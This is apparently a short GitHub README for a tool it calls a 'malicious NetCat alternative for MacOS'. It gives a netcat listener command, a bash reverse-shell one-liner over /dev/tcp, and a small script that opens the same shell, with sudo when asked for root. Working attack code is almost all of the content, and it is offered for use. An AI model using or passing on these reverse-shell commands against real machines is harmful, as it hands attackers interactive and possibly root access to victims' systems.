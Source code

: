 # nc-mac
A simple malicious NetCat alternative for MacOS

## On the listener's machine:

You can simply run the command

```
nc -lnvp 69
```

this will set up a listener that will run until a connection disconnects

## On the "victim"'s machine:

You can run
```
bash -i >& /dev/tcp/127.0.0.1/69 0>&1
```
or set up a fancy shell file like I have:

```sh
#!/bin/bash

if [ "$1" == "root" ]; then
    sudo bash -i >& /dev/tcp/127.0.0.1/69 0>&1
else
    bash -i >& /dev/tcp/127.0.0.1/69 0>&1
fi
```

this is basically the equivelent of running nc with the `-e` switch on linux, but on mac

cool right?

